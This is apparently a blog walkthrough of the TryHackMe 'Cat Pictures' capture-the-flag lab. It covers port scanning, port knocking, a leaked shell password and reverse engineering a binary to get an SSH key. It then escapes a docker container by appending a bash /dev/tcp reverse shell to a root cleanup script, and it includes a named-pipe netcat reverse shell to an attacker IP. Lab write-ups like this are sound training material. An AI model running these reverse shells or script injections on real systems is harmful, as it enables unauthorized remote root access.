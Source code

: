 ```yaml
---

title: Walkthrough - Cat Pictures
published: true
---
```


Security, PHPbb, Forum, Docker, Port Knocking. A forum where you can post cute cat pictures!

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

```
PORT     STATE    SERVICE     REASON
21/tcp   filtered ftp         port-unreach ttl 61
22/tcp   open     ssh         syn-ack ttl 61
2375/tcp filtered docker      port-unreach ttl 61
4420/tcp open     nvm-express syn-ack ttl 61
8080/tcp open     http-proxy  syn-ack ttl 60   
```

```
PORT     STATE  SERVICE      VERSION
21/tcp   closed ftp
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
2375/tcp closed docker
4420/tcp open   nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open   http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-title: Cat Pictures - Index page
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
```

Visiting the phpbb on port 8080 and checking the version `/styles/prosilver/style.cfg` we can see version 3.3.3 which has no known exploits

- we can find a user `user` and a possible hint on their post

![](/assets/cat-pictures01.png)

```
POST ALL YOUR CAT PICTURES HERE :)
Knock knock! Magic numbers: 1111, 2222, 3333, 4444
```

- port knocking - let them know we want in `sudo knock '10.10.120.58' 1111 2222 3333 4444`
- and portscan again with nmap to see if they let us in `sudo nmap -sV -sT -sC -O -p21,22,2375,4420,8080 10.10.120.58` and we have open port ftp 21. login and get the note.

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

We can `nc -nv` into the port 4420 and enter the password. maybe possibly get a better shell. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f` and we are there. Still super limited to what we can do here, and after looking around a bit nowhere to go other than the runme file. 

We only have limited options and in order to check out the runme file we have to get it over to our machine. We can do this with netcat. `nc -l -p 1234 > runme` on attacker machine and `nc -w 3 'ip' 1234 < runme` on the target inside the home directory.

- `r2 runme` to open runme in radarem, `aaa` to analaze, `s main` to select the main function, and finally `pdf` to display.

Looking at the file it looks like it needs a password and upon success it will send back a SSH key. Going to open in `ghidra` as well to get another look.

![](/assets/cat-pictures02.png)

Our password for runme is `rebecca` when we enter this the function it creates an ssh key in the user dir.

Using this key we can ssh in as catlover and it turns out to be root!

* * * 

## What is the flag 1?

![](/assets/cat-pictures03.png)

Turns out this is only root for flag 1. We are stuck in a docker container and must get out for the real root flag.

Inside of the `/opt/clean` directory there is a script that cleans the /tmp/ dir. We can edit this file and add a bash reverse shell at the end of it and setup a listener to get another root shell. `bash -i >& /dev/tcp/'10.2.127.225'/6969 0>&1`

* * * 

## What is the root flag?

![](/assets/cat-pictures04.png)

* * * 

